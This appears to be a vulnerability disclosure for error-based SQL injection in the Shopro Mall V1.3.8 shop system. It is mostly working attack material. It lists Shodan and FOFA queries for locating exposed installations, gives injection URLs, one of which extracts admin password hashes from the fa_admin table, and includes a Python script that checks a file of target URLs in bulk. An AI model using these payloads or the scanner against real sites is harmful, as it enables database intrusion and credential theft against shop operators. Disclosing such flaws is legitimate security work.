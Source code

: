 # Shopro Mall system V1.3.8 Value parameter has SQL injection 
## Shopro Mall system
  
Official Website：https://shopro.top
Github：https://github.com/ITmonkey-cn/shopro.git
![](./images/Pasted%20image%2020220701231852.png)
## Search
shodan：http.title:"shopro"
fofa：title="shopro"

## Vulnerability Type 
Error-Based SQL Injection

## Vulnerability Version
V1.3.8

## Recurring environment: 
+ ubuntu
+ python3.7

## Vulnerability Description AND recurrence

![](./images/Pasted%20image%2020220701232717.png)
1. F12 find something interesting
	![](./images/Pasted%20image%2020220701234759.png)

2. parameter goods_ids has sql error message
	![](./images/Pasted%20image%2020220701234835.png)

	```
	http://url/addons/shopro/goods/lists?page=1&goods_ids=32),updatexml(1,concat(0x7e,(select database()),0x7e),1)-- -
	```

3. Find information whit Error-Based SQL Injection 
	![](./images/Pasted%20image%2020220701235115.png)


	```
	http://url/addons/shopro/goods/lists?page=1&goods_ids=32),updatexml(1,concat(0x7e,(select group_concat(password) from fa_admin),0x7e),1)-- -
	```
	![](./images/Pasted%20image%2020220701235712.png)
4. POC
	```
	import requests
	requests.packages.urllib3.disable_warnings()
	def poc(url):
		try:
			payload = "/addons/shopro/goods/lists?page=1&goods_ids=32),updatexml(1,concat(0x7e,(select database()),0x7e),1)-- -"
			target = url + payload
			#print(url)
			header = {'User-Agent':'Mozilla/5.0 (Windows; U; Windows NT 6.1; en-US; rv:1.9.1.6) Gecko/20091201 Firefox/3.5.6'}
			response = requests.get(target, headers=header, timeout=5,verify=False)
			#print(response.status_code)
			#print(response.text)
			if response.status_code == 500 and "XPATH" in response.text:
				print(url + " is vulnerable")
		except Exception as e:
			pass
		else:
			pass


	def main():
		with open('url.txt',encoding='utf-8') as f:
			for i in f.readlines():
				poc( i.strip())
			f.close()


	if __name__ == '__main__':	
		main()   
	```
